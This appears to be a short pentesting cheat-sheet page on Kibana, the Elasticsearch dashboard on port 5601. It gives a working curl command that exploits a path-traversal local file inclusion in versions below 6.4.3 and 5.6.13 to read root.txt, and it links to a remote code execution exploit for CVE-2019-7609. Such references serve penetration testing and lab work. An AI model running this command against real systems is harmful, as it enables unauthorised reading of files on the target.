 ```yaml
---
title: Kibana Pentesting
desc: A proprietary data visualization dashboard software for Elasticsearch. Default port is 5601.
tags: [5601, Kibana, Web]
alts: []
render_with_liquid: false
---
```


## Vulnerabilities

1. **Local File Inclusion (LFI)**

    **Version < 6.4.3 & 5.6.13**

    ```sh
    curl http://<target-ip>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
    ```

2. **Remote Code Execution (RCE)**

    **Version < 6.6.0**

    Reference: [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609){:target="_blank"}{:rel="noopener"}
